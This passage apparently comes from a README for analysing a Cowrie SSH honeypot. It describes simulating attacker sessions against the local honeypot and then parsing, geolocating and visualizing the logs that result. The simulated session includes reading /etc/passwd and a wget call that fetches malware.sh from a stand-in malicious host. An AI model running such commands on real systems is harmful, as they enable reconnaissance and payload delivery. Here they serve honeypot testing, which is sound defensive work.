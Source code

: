 Logs are written to `cowrie/var/log/cowrie/cowrie.json`.

---

## Simulating Attacks (Generating Data)

> **To generate meaningful log data for analysis, you must simulate attacks.**

1. Connect to your honeypot using SSH from the same or another machine:
```bash
ssh -p 2222 fakeuser@localhost
```
# Use a password from your userdb.txt (e.g., testpass)

2. Once you get the (fake) shell prompt, simulate attacker behavior by running commands such as:
```
uname -a
whoami
ls -la /
cat /etc/passwd
wget http://malicious.example.com/malware.sh
exit
```
3. Repeat from different usernames/IPs if you wish.
4. All activity will be logged in `cowrie.json`.

---

## Analyzing Attacks

### 1. Parse Logs

```bash
cd ~/cowrie-analysis
source venv/bin/activate
python parse_logs.py
```
# Outputs: attacker_ips.txt, ip_to_commands.json

### 2. Geolocate IPs

```bash
python geoip_report.py
```
# Outputs: attacker_ips_geo.json


### 3. Visualize Attacks
